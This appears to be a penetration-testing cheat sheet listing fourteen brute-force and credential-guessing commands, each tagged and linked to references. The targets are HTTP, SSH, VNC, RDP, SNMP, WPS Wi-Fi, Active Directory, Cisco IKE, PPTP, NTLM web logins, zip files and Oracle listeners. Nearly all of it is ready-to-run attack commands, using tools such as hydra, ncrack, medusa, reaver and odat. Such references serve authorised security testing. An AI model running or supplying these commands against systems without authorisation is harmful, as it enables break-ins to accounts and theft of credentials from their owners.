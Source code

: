 ### 1. Brute HTTP with hydra -s 443 for ssl
```
hydra -L [usernames] -P [passwords] -t 1 -e ns -f -vV <destination> http-get /
```
**- linux,brute,http**
#### References:

https://www.aldeid.com/wiki/Thc-hydra#Usage
__________
### 2. Default community string in SNMP
```
snmpwalk -v 1 -c public [TARGET]
```
**- linux,bash,scanning,brute**
#### References:

http://net-snmp.sourceforge.net/docs/man/snmpwalk.html
__________
### 3. try to reave WPS wifi
```
reaver -i mon0 -c <channel> -b <bssid> -vv
```
**- brute,wireless,wifi**
#### References:

http://tools.kali.org/wireless-attacks/reaver
__________
### 4. medusa brute force
```
medusa -M ssh -U userlist -P passwordlist -h [host]
```
**- linux,brute**
#### References:

http://foofus.net/goons/jmk/medusa/medusa.html
__________
### 5. brute force ncrack vnc
```
ncrack -v -d1 -T5 -P /usr/share/wordlists/rockyou.txt [service eg vnc]://[target IP]:[port eg 5900] -oA [output file]-ncrack.txt
```
**- linux,brute**
#### References:

https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
__________
### 6. Simple powershell brute force, user input list, checks the password 'password'
```
Function Test-ADAuthentication {param($username,$password);echo "$username $password";(new-object directoryservices.directoryentry"",$username,$password).psbase.name -ne $null}; forEach ($userName in Get-Content "user_logins.txt"){Test-ADAuthentication $userName password >> test4.txt;}
```
**- loop,brute,Windows,powershell**
#### References:

https://msdn.microsoft.com/en-us/library/system.directoryservices.directoryentry(v=vs.110).aspx
http://serverfault.com/questions/596602/powershell-test-user-credentials-in-ad-with-password-reset
__________
### 7. Try to brute the remote group name : cisco
```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```
**- cisco,scanning,brute**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
https://github.com/SpiderLabs/ikeforce
https://www.trustwave.com/Resources/SpiderLabs-Blog/Cracking-IKE-Mission-Improbable-(Part-1)/
__________
### 8. Brute force PPTP password
```
thc-pptp-bruter -u [username] -W -w /usr/share/wordlists/nmap.lst
```
**- scanning,brute**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 9. brute force RDP
```
ncrack -u administrator -P 500-worst-passwords.txt -p 3389 10.212.50.21
```
**- linux,brute**
#### References:

https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
__________
### 10. brute force HTTP basic burp
```
Custom iterator -> 1 + Seperator for 1 ->  2 -> payload processing b64 
```
**- brute,web application**
#### References:

http://security-geek.in/2014/08/22/using-burp-suite-to-brute-force-http-auth-attacks/
__________
### 11. NTLM brute force, if msf is broke : assumes fail is in Index, curl is still bugged?
```
for i in `cat [users]`; do for j in `cat [passwords]`; do wget -c --http-user='[domain]\$i' --http-password=$j https://[url] --no-check-certificate -e use_proxy=yes -e https_proxy=127.0.0.1:8080 2>index.html; grep -i fail index.html; rm index.html; echo $i:$j; echo "___" ; done; done | tee ntlm_brute
```
**- brute,web application**
#### References:

http://honglus.blogspot.co.uk/2010/06/use-script-to-fetch-url-protected-by.html
__________
### 12. Crack a zip file, Note: Older enc only
```
patator.py unzip_pass zipfile=[file] password=FILE0 0=[pass.txt] -x ignore:code!=0
```
**- cracking,brute force**
#### References:

https://github.com/lanjelot/patator
__________
### 13. Used to guess common SIDs in Oracle databases
```
/path/to/odat/odat-libc2.5-x86_64 sidguesser -s [IP]
```
**- brute,Oracle,database**
#### References:

https://github.com/quentinhardy/odat
https://www.darknet.org.uk/2014/07/odat-oracle-database-attacking-tool-test-oracle-database-security/
http://www.kitploit.com/2014/07/odat-oracle-database-attacking-tool.html
__________
### 14. Used to brute common passwords in Oracle TNS listener
```
/path/to/odat/odat-libc2.5-x86_64 passwordguesser -d [SID] -s [IP]
```
**- brute,Oracle,database**
#### References:

https://www.darknet.org.uk/2014/07/odat-oracle-database-attacking-tool-test-oracle-database-security/
http://www.kitploit.com/2014/07/odat-oracle-database-attacking-tool.html
__________
